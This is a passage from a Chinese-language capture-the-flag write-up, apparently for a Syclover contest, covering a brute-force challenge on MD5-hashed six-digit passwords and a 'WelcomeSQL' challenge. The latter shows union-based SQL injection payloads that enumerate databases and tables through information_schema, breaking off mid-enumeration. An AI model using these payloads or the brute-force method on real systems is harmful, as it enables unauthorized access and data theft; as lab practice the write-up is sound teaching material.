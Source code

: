 `SYC{C@nzik#lik3s_to#sleeP_in_class?*#}`

## 登陆试试

> hint: Syclover用户忘了他的密码，咋办哦,依稀记得密码为6位数字,以774开头，这次我们来爆爆他的密码，让他再也不犯相同的错了

![image-20221115142122917](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151421066.png?x-oss-process=hzy)

就是个单纯爆破，字典密码用md5加密爆破774000-774999

![image-20221116212347212](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211162123296.png?x-oss-process=hzy)

![image-20221116212407356](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211162124430.png?x-oss-process=hzy)

SYC{xi_huan_4_l}

## WelcomeSQL

> hint: 你能找到admin的秘密吗？

![image-20221115142857403](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151428549.png?x-oss-process=hzy)

判断出来是GET注入+数字型

![image-20221115143326585](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151433681.png?x-oss-process=hzy)

id到5就没了，说明字段是4

使用联合注入

```
-1 union select 1,2
```

![image-20221115143444018](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151434125.png?x-oss-process=hzy)

3就报错了，接下来继续查询获取当前数据名

```
-1 union select 1,database()
```

![image-20221115143700917](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151437028.png?x-oss-process=hzy)

获取所有数据库名

```
-1 union select 1,group_concat(schema_name)from information_schema.schemata
```

![image-20221115144201730](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151442865.png?x-oss-process=hzy)

获取WelcomeSQL数据库的表名

```
d=-1 union select 1,group_concat(table_name)from information_schema.tables where table_schema='WelcomeSQL'

```
